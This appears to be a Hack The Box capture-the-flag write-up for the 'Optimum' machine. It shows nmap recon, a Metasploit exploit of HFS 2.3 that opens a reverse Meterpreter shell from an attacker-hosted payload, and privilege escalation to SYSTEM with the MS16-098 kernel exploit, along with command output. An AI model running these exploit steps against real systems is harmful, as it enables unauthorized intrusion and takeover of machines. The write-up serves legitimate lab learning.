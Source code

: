 ```yaml
---
layout: post
title:  "Optimum"
category: writeup
author: mrtn
---
```


Todays box is `Optimum`, also known as `10.10.10.8`

# Recon

The initial scan with nmap was pretty small - looks like the only attack surface visible is only port 80 on tcp.


Checking that out with the browser reveals the interface of [HFS](https://www.rejetto.com/hfs/) - a quick `searchsploit` reveals several vulnerabilities for the version 2.3, which is running on that box. Luckily, there is a `metasploit` module for that CVE. 

# Foothold

```bash
msfconsole
use windows/http/rejetto_hfs_exec
set rhost optimum.htb
set srvhost 10.10.14.46
set srvport 1337
run
[*] Started reverse TCP handler on 10.10.14.46:4444
[*] Using URL: http://10.10.14.46:8080/pwNwDKXp
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /pwNwDKXp
[*] Sending stage (179779 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.46:4444 -> 10.10.10.8:49162) at 2019-07-01 21:42:02 +0200
[!] Tried to delete %TEMP%\bOfDSNNtoh.vbs, unknown result
[*] Server stopped.
shell
meterpreter > shell
Process 984 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas

C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

08/07/2019  07:34 ��    <DIR>          .
08/07/2019  07:34 ��    <DIR>          ..
08/07/2019  07:34 ��    <DIR>          %TEMP%
18/03/2017  03:11 ��           760.320 hfs.exe
18/03/2017  03:13 ��                32 user.txt.txt
               2 File(s)        760.352 bytes
               3 Dir(s)  31.881.613.312 bytes free

C:\Users\kostas\Desktop>type user.txt.txt
type user.txt.txt
d0[...]f73
```

# Privilege Escalation

Let's get some `sysinfo` and feed that into the [windows-exploit-suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

```bash
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
```

After checking out some others, _MS16-032_ looks more promising.

Check out the corresponding `metasploit` module for this. Also, take care, we are dealing with an `x64` installation! 

For this exploit to work, you need to set the initital meterpreter payload to `windows/x64/meterpreter/reverse_tcp` as well as the `TARGET` to `1` - which is also `x64`. 


For me it didn't work - the exploit went through, reported success but no shell spawned - so back to the list from `windows-exploit-suggester`...

After some unsuccesful attempts, _MS16-098_ seems to tick all the boxes.

```bash
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
```

Get the binary.

Upload the binary to the target. 

```bash
cmd>41020.exe
cmd>whoami
SYSTEM
```

pwned

```bash
type root.txt
51[...]]ed
```


# References

[Optimum@htb](https://www.hackthebox.eu/home/machines/profile/6)
[windows-exploit-suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

